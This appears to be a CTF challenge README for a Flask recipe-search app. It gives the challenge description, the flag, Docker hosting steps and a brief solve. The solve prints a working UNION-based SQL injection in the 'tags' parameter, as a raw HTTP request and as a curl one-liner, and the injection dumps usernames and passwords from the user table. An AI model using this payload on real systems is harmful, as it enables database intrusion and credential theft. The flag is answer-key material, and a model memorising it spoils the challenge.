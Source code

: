 # Cooking Flask
Description:
```markdown
I threw together my own website! It's halfway done. Right now, you can search for recipes and stuff. I don't know a ton about coding and DBs, but I think I know enough so that no one can steal my admin password... I do know a lot about cooking though. All this food is going to make me burp. Sweet, well good luck

https://cooking.chal.cyberjousting.com
```

**Author**: `bluecougar`

## Writeup
Basically the premise is the guy is just vibe coding and doesn't know how to properly parameterize a certain field and doesn't know to turn off debug mode.

Solve:
```
GET /search?recipe_name=&description=&tags=breakfast"%')+Union+Select+1,password,'2012-10-10','d',username,'f','[]',7+from+user-- HTTP/1.1
Host: cooking.chal.cyberjousting.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.175:8080/search?recipe_name=&description=&tags=Breakfast
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

`curl 'https://cooking.chal.cyberjousting.com/search?recipe_name=&description=&tags=breakfast"%'\'')+Union+Select+1,password,'\''2012-10-10'\'','\''d'\'',username,'\''f'\'','\''[]'\'',7+from+user--' | grep -o 'byuctf.*}'`

For a full writeup, see [`Writeup.md`](./Writeup.md).

**Flag** - `byuctf{pl34s3_p4r4m3t3r1z3_y0ur_1nputs_4nd_h4sh_p4ssw0rds}`

## Hosting
This challenge should be a Docker container that runs a Flask webserver on port 5001. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

```bash
docker compose up -d
```

To stop the challenge:
```bash
docker compose down
```